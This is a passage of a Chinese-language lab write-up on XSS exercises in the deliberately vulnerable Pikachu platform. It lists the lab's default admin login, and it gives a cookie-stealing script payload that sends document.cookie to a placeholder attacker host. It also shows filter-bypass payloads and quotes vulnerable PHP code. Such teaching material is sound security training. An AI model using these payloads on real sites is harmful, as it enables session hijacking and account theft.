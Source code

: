 - 后台: http://<IP地址!!!>/pikachu/vul/xss/xssblind/admin_login.php
- 账号密码: admin 123456

到 pikachu 平台下管理工具,进去初始化平台

盗 cookie payload `<script>document.location = 'http://<xss平台地址>/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`

![](../../../../assets/img/安全/实验/Misc/pikachu/12.png)

### xss 之过滤

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['message'] != null){
    //这里会使用正则对<script进行替换为空,也就是过滤掉
    $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message']);
    if($message == 'yes'){
        $html.="<p>那就去人民广场一个人坐一会儿吧!</p>";
    }else{
        $html.="<p>别说这些'{$message}'的话,不要怕,就是干!</p>";
    }

}
```

这里注释写的很清楚了,不多说了

**漏洞利用**

过滤了 `<script` ,还有很多的标签可以用,再说还有很多绕过方法

- payload: `<marquee loop="99" onfinish=alert(1)>hack the planet</marquee>`

- payload: `<ScrIpT>alert('老铁,欧里给!')</sCriPt>`

### xss 之 htmlspecialchars

**服务器端核心代码**
```php
if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>输入点啥吧!</p>";
    }else {
        //使用了htmlspecialchars进行处理,是不是就没问题了呢,htmlspecialchars默认不对'处理
        $message=htmlspecialchars($_GET['message']);
        $html1.="<p class='notice'>你的输入已经被记录:</p>";
        //输入的内容被处理后输出到了input标签的value属性里面,试试:' onclick='alert(111)'
//        $html2.="<input class='input' type='text' name='inputvalue' readonly='readonly' value='{$message}' style='margin-left:120px;display:block;background-color:#c0c0c0;border-style:none;'/>";
        $html2.="<a href='{$message}'>{$message}</a>";
    }
}
```
